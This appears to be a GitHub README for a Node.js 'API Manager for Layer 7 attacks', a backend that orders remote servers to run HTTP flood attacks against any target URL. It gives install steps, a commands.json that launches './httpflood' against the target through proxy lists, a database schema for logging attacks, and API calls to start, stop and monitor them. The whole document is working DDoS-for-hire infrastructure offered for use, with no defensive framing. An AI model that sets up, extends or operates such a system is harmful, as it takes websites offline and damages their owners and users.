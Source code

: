 <h2>NodeJS API Manager for Layer 7 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 15,
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000; // cổng API
const socket_token = "SECRET_TOKEN"; //mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload client.js to the attack servers and upload api.js, servers.json, commands.json and settings.json to the API server

### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Replace `'http://backend:3000/api'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also view all running attacks and server usage by sending a GET request to the API

GET `https://api.yourdomain.com/api/status`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`
